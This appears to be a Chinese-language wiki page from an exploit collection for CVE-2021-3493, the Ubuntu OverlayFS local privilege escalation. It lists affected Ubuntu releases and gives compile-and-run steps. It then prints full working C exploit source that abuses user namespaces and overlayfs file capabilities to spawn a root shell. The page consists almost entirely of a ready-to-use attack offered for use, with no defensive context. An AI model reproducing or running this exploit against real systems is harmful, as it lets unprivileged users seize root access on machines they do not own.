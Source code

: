 <languages   />

影响版本
--------

    Ubuntu 20.10
    Ubuntu 20.04 LTS
    Ubuntu 18.04 LTS
    Ubuntu 16.04 LTS
    Ubuntu 14.04 ESM

    Fixed in Linux 5.11

截图
----

[800px](FIle:2021-04-21_16.24.30.jpg "wikilink")

使用教程
--------

    gcc exploit.c -o exploit
    chmod +x exploit
    ./exploit

EXP
---

    #define _GNU_SOURCE
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <fcntl.h>
    #include <err.h>
    #include <errno.h>
    #include <sched.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <sys/wait.h>
    #include <sys/mount.h>

    //#include <attr/xattr.h>
    //#include <sys/xattr.h>
    int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


    #define DIR_BASE    "./ovlcap"
    #define DIR_WORK    DIR_BASE "/work"
    #define DIR_LOWER   DIR_BASE "/lower"
    #define DIR_UPPER   DIR_BASE "/upper"
    #define DIR_MERGE   DIR_BASE "/merge"
    #define BIN_MERGE   DIR_MERGE "/magic"
    #define BIN_UPPER   DIR_UPPER "/magic"


    static void xmkdir(const char *path, mode_t mode)
    {
        if (mkdir(path, mode) == -1 && errno != EEXIST)
            err(1, "mkdir %s", path);
    }

    static void xwritefile(const char *path, const char *data)
    {
        int fd = open(path, O_WRONLY);
        if (fd == -1)
            err(1, "open %s", path);
        ssize_t len = (ssize_t) strlen(data);
        if (write(fd, data, len) != len)
            err(1, "write %s", path);
        close(fd);
    }

    static void xcopyfile(const char *src, const char *dst, mode_t mode)
    {
        int fi, fo;

        if ((fi = open(src, O_RDONLY)) == -1)
            err(1, "open %s", src);
        if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
            err(1, "open %s", dst);

        char buf[4096];
        ssize_t rd, wr;

        for (;;) {
            rd = read(fi, buf, sizeof(buf));
            if (rd == 0) {
                break;
            } else if (rd == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "read %s", src);
            }

            char *p = buf;
            while (rd > 0) {
                wr = write(fo, p, rd);
                if (wr == -1) {
                    if (errno == EINTR)
                        continue;
                    err(1, "write %s", dst);
                }
                p += wr;
                rd -= wr;
            }
        }

        close(fi);
        close(fo);
    }

    static int exploit()
    {
        char buf[4096];

        sprintf(buf, "rm -rf '%s/'", DIR_BASE);
        system(buf);

        xmkdir(DIR_BASE, 0777);
        xmkdir(DIR_WORK,  0777);
        xmkdir(DIR_LOWER, 0777);
        xmkdir(DIR_UPPER, 0777);
        xmkdir(DIR_MERGE, 0777);

        uid_t uid = getuid();
        gid_t gid = getgid();

        if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
            err(1, "unshare");

        xwritefile("/proc/self/setgroups", "deny");

        sprintf(buf, "0 %d 1", uid);
        xwritefile("/proc/self/uid_map", buf);

        sprintf(buf, "0 %d 1", gid);
        xwritefile("/proc/self/gid_map", buf);

        sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
        if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
            err(1, "mount %s", DIR_MERGE);

        // all+ep
        char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

        xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
        if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
            err(1, "setxattr %s", BIN_MERGE);

        return 0;
    }

    int main(int argc, char *argv[])
    {
        if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
            setuid(0);
            setgid(0);
            execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
            err(1, "execl /bin/bash");
        }

        pid_t child = fork();
        if (child == -1)
            err(1, "fork");

        if (child == 0) {
            _exit(exploit());
        } else {
            waitpid(child, NULL, 0);
        }

        execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
        err(1, "execl %s", BIN_UPPER);
    }

Github
------

<https://github.com/briskets/CVE-2021-3493>
